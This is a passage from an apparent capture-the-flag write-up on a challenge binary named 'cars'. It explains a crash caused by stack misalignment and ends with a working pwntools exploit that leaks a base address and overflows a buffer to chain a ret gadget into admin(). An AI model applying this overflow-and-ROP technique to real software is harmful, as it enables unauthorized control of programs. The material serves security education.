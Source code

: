 In our GDB, we can do `continue` to continue the program until it crashes.

```py
pwndbg> continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.

[ REGISTERS / show-flags off / show-compact-regs off ]
*RSP  0x7ffd7586b648 ◂— 0x0
[ DISASM / x86-64 / set emulate on ]
 ► 0x7f7cb895b4c0 <_int_malloc+2832>    movaps xmmword ptr [rsp + 0x10], xmm1
```

As we can see, it crashes on a `movaps` instruction. If we look at the `movaps` instruction [documentation](https://c9x.me/x86/html/file_module_x86_id_180.html), it mentions

> When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte boundary or a general-protection exception (#GP) is generated.

In this context, the operand is `rsp + 0x10`. This means that our `rsp` register has to be 16-byte aligned, but it is not (`0x7ffd7586b648 % 0x10 != 0x0`) -- resulting in the crash.

How can we fix this? We can simply add a single `ret` instruction to increment our `RSP` by 0x8 before we call `admin()`.

```sh
➜ ROPgadget --binary cars | grep " : ret$"
0x000000000000101a : ret
```

Let's update our solve script.

```py
from pwn import *

# run the program
p = process("./cars")

p.recvuntil(b"Report number: #")
REPORT_NUMBER_ADDRESS = int(p.recvline())
ELF_BASE = REPORT_NUMBER_ADDRESS - 0x4090
ADDRESS_OF_ADMIN = ELF_BASE + 0x128E
RET_GADGET = ELF_BASE + 0x101A

# Please input your Student ID:
p.sendline(b"id")

# Please describe the incident: (vulnerable!!)
payload = b"A"*40  # pad our return address
payload += p64(RET_GADGET)
payload += p64(ADDRESS_OF_ADMIN)
p.sendline(payload)

p.interactive()
```

